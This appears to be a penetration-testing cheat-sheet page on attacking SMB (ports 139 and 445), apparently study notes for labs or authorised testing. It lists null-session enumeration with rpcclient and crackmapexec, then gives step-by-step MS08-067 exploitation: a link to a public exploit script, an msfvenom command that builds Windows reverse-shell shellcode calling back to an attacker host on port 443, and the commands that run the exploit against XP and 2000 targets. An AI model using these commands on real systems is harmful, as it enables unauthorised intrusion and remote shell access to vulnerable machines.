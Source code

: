 # 139, 445 - SMB

## Enumeration

* [Nmap](../../toolbox/network/nmap.md#smb-scanning)
* rpcclient

```
rpcclient -U '' -N 10.0.0.1
```

* Crackmapexec

```
crackmapexec smb 10.0.0.1 -u 'a' -p '' --shares
```

## Exploits

### MS08-067

Script source: [https://github.com/andyacer/ms08\_067](https://github.com/andyacer/ms08\_067)

Generate shellcode:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -a x86 -f c
```

Execution (Python 2):

```
python ms08_067_2018.py <target_ip> 1 445 #Target OS: WinXP
python ms08_067_2018.py <target_ip> 2 139 #Target OS: Win2000
```

